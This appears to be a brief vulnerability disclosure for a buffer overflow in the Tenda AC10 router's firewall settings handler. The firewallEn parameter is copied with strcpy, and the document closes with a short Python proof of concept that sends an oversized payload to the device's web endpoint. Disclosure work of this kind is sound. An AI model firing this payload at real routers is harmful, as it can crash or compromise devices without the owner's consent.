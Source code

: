 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](12.png)

get value from firewallEn ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetFirewallCfg"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
